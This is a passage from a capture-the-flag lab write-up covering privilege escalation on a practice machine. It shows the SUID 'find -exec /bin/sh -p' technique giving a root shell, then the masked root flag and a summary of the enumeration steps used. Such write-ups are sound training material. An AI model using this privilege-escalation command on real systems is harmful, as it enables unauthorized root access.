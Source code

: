 ## Privilege escalation

Binary `find` has the SUID and it should have it. We can use this to get a shell as root since this binary is owned by root (https://gtfobins.github.io/gtfobins/find/) :  
```
stoner@Vulnerable:/var/backups$ find . -exec /bin/sh -p \; -quit
# whoami
root
```

**Question : What did you exploit to get the privileged user ?**  
**Answer : find**  

We are root ! Let's get the root flag :  
```
# cd /root
# ls
root.txt
# cat root.txt
*******************
```

**Question : root.txt**  
**Answer : *HIDDEN***  

## Conclusion

In this room, we practiced :  
- Services and ports enumeration using [nmap](https://nmap.org/book/man.html)
- FTP enumeration
- Web enumeration using [gobuster](https://github.com/OJ/gobuster)
- Basic linux enumeration
- Privilege escalation using a SUID binary

Thanks for this room and thanks for reading my write ups !
